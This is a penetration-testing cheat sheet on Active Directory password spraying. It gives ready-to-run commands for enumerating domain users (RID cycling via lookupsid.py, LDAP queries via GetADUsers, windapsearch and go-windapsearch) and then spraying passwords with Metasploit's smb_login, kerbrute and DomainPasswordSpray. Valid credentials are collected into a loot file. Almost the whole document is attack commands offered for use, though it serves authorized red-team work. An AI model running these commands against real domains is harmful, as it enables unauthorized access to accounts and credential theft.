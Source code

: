 # Password Spraying




## Get Domain Users



### Non-Authenticated

Perform [RID cycling](https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/) attack against a DC with SMB null sessions allowed via [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py):

```
$ lookupsid.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 20000 | tee ~/ws/log/lookupsid.out
$ cat ~/ws/log/lookupsid.out | grep SidTypeUser | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F'\' '{print $2}' | awk '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ ./go-windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/log/go-windapsearch.out
$ cat ~/ws/log/go-windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users.txt
```




## MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```




## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ ./kerbrute userenum -d megacorp.local -o ~/ws/log/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/log/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ ./kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```




## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
